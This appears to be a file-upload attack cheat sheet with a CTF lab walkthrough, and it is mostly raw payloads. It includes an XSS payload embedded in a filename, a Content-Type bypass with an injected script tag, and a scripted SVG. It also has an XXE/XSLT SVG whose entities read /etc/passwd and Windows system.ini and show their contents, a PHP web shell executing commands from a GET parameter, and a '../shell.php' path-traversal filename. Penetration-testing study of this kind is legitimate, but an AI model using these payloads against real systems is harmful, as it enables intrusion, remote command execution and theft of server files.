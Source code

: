 _____

# XSS in File Name

```
filename="test<img src=x onerror=alert()>.png"
```

# Bypassing Content Types

Try deleting Content-Type
```
Content-Type: text/html
```

Add `<script>alert()</script>`

# Content/MIME Types

https://github.com/BlackFan/content-type-research/blob/master/XSS.md

# SVGs

```
Content-Type: text/svg
```

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
    <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400" />
    
    <script>
        alert(1)
    </script>
</svg>
```

The lab allows you to upload your own profile picture, create an svg with the below content:

Make a note of the uploaded file, the URL will be something like /uploads/e943fc9a281b6834f6a6cbd98a0f3af5.svg

The View PDF feature makes a pdf from the html version of the order can be traversed to the image upload e.g:
https://xxxxxxxx.eu1.ctfio.com/pdf.php?order_id=.../uploads/e943fc9a281b6834f6a6cbd98a0f3af5.svg

```xml
<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xsl" href="#"?>
<!DOCTYPE div [
    <!ENTITY passwd_p SYSTEM "file:///etc/passwd">
    <!ENTITY passwd_c SYSTEM "file://c:/etc/passwd">
    <!ENTITY sysini_p SYSTEM "file:///c:/windows/system.ini">
    <!ENTITY sysini_c SYSTEM "file://c:/windows/system.ini">
]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
    <xsl:template match="/">
        <xsl:copy-of select="document('')"/>
        <body xmlns="http://www.w3.org/1999/xhtml">
            <div style="display:none">
                <p class="&passwd_p;">&passwd_c;</p>
                <p class="&sysini_p;">&sysini_c;</p>
            </div>
            <div style="width:40rem" id="r" />
            <script>
                document.querySelector('#r').innerHTML = `
                remote web url: &lt;textarea style="width:100%;height:1rem">${location.href}&lt;/textarea>&lt;br/>&lt;br/>`;
                document.querySelectorAll('p').forEach(p => {
                //You can send p.innerHTML by POST.
                document.querySelector('#r').innerHTML += `
                local file path: &lt;textarea style="width:100%;height:1rem">${p.className}&lt;/textarea>&lt;br/>
                local file content: &lt;textarea style="width:100%;height:6rem">${p.innerHTML}&lt;/textarea>&lt;br/>`;
                });
            </script>
        </body>
    </xsl:template>
</xsl:stylesheet>
```

# Path Traversal

```php
<?php echo shell_exec($_GET["cmd"]); ?>
```

filename="../shell.php"